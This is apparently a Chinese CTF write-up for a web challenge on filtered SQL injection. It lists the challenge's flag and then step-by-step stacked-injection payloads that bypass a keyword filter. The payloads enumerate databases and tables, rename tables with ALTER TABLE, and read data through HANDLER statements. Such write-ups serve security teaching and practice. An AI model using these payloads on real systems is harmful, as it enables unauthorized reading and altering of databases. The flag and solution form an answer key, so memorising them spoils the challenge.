 * 题目名称： saveSaofe1a_partB

* 题目类型： WEB

* 题目难度： 中等

* 出题人： Chimedal

* 考点：有过滤sql注入

* 描述：知道了小美的hobby后，你准备了一份大礼，可是Saofe1a竟然不知道小美在什么大学，这时你也只好重新在系统里面找找有没有遗漏的线索。可是，上一次的攻击似乎被网站管理员发现了，这个系统得到了史诗级的加强。黑客的战斗没有硝烟，这一次，阁下又该如何应对？

* flag： XSCTF{Saofe1a_wAnt_a_9ir1fri3nd}

* Writeup：
```
/select|update|delete|drop|insert|where|\./i
set&prepare&execute都没了
```
## 判断闭合方式：
小知识：注释可以#或者--
1. 输入1，可行，再输入`1'`报错
2. 说明了两点：本题的闭合方式确实是`'`闭合，同时我们确定在本题我们是有可能是能使用报错注入的。
3. 判断是否有关键字过滤：先直接输入： **select** 查看回显，
4. select一被禁用，联合查询，报错注入，布尔,时间盲注就都不可以使用了。我们只剩下了 **堆叠注入**。
5. ```1';show databases#```
6. ```1';show tables;#```查看数据表
7. 奇奇怪怪的表`2333`包有问题的，看结构
   * 方法：```1';desc `2333`;#```
   * 注意，如果tableName是纯数字，需要用反引号包裹

## 方法一:
可以通过修改表名和列名来实现。我们输入1后，默认会显示id为1的数据，可以猜测默认显示的是和上题一样的class1表的数据，查看class1表结构第一个字段名为id我们把class1表随便改成class，然后把2333表改成class1，再把列名flag改成id，就可以达到直接输出flag字段的值的效果：```1'; alter table class1 rename to class;alter table `2333` rename to class1;#```,然后输入```1' or 1 = 1 #```成功获取到flag。

## 方法二:
此题还可以通过handle直接出答案：```1';HANDLER `2333` OPEN;HANDLER `2333` READ FIRST;HANDLER `2333` CLOSE;```
